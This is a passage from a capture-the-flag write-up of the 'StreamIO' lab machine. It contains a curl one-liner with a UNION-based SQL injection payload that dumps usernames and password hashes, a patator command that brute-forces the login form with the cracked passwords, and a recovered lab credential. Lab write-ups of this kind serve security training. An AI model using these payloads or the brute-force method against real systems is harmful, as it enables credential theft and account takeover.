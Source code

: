 <img src="https://i.imgur.com/a4fdgGd.png"/>

Using `curl` we can make a POST request without sqli payload and then use `sed ` and `awk` to get the usernames and passwords

```bash
curl -X POST 'https://watch.streamio.htb/search.php' -d 'q=uwu%27%20union%20select%201%2Cconcat%28username%2C%27%3A%27%2Cpassword%29%2C3%2C4%2C5%2C6%20from%20users%20%2D%2D' -k -s | grep h5 | sed -e 's/<h5 class="p-2">//g' -e 's/<\/h5>//g'| tr -d " \t"

```

I made a dirty little one liner to extract username and password hashes

Here we are making a POST request with `-d` having the post parameter `q` with the sqli payload to extract username and password hashes

Next we are using `grep` to grab text having `h5` tag as that's where the serach text is reflected back

Piping it to `sed ` we can replace `<h5 class="p-2">` with null character , the same with `</h5>` and then removing the tabs before the usernames with `tr -d "\t"`

<img src="https://i.imgur.com/3kVdczF.png"/>

We are now only left with usernames and password hashes which we can seperate using `awk` , `awk -F: '{print $1}'``


<img src="https://i.imgur.com/4QDvNte.png"/>


<img src="https://i.imgur.com/ul8zkXV.png"/>

<img src="https://i.imgur.com/eXrdw4R.png"/>


<img src="https://i.imgur.com/JVf1o00.png"/>

This cracked 12 hashes out of 30, so now let's try to perform bruteforce on login

We can use burpsuite or hydra to perform bruteforce but I found a tool named `patator` which I recently started to like for bruteforcing and fuzzing

```bash
python3 /opt/patator/patator.py http_fuzz 'url=https://streamio.htb/login.php' method=POST body='username=FILE0&password=FILE1' 0=./users.txt 1=./cracked_passwords.txt -x ignore:fgrep='Login failed'
```

Here to supply different wordlist we can use any name followed by a number like `0` which indicates the first wordlist so in this case `FILE0` and then we define the path to wordlist in `0` , similar we do this with `FILE1` andd then we can use `-x` to ingore the message in the response using `fgrep` for the string `Login Failed

<img src="https://i.imgur.com/YG57owv.png"/>

This has found the valid login `yoshide : 66boysandgirls..`, After logging in, we can access the admin panel and can see that this user has access to some functionality

